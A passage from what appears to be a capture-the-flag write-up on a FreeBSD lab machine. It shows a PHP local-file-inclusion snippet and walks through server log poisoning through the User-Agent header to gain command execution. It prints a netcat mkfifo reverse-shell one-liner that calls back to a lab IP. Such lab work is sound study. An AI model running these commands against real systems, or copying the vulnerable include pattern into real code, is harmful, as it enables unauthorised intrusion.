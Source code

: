 ![image.png](image%209.png)

It is encoded in base64 it decodes to:

```php
<?php
include($_GET['file']);
?>
```

What can I do here is to perform `Log Poisoning` before that I should find where `access.log` or `error.log` is located.

Searching for it in Google I found that `access.log` file for FreeBSD OS is located in `/var/log/httpd-access.log`.

![image.png](image%2010.png)

Testing it I see that it really is:

![image.png](image%2011.png)

Location of `error.log -> var/log/httpd-error.log`:

![image.png](image%2012.png)

To perform Server Log Poisoning first change the user agent to `PHP Webshell`:

![image.png](image%2013.png)

After sending the request delete the User-Agent header because we don’t want the command be executed twice and send the command appending to request `&cmd=<command>`:

![image.png](image%2014.png)

You see it works:

![image.png](image%2015.png)

Now let’s try to get a reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.34 443 >/tmp/f
```

![image.png](image%2016.png)

![image.png](image%2017.png)

I wanted to make it interactive using python, perl and ruby but didn’t find neither of them, then I used:

```bash
/bin/csh -i
```

## Lateral Movement to charix
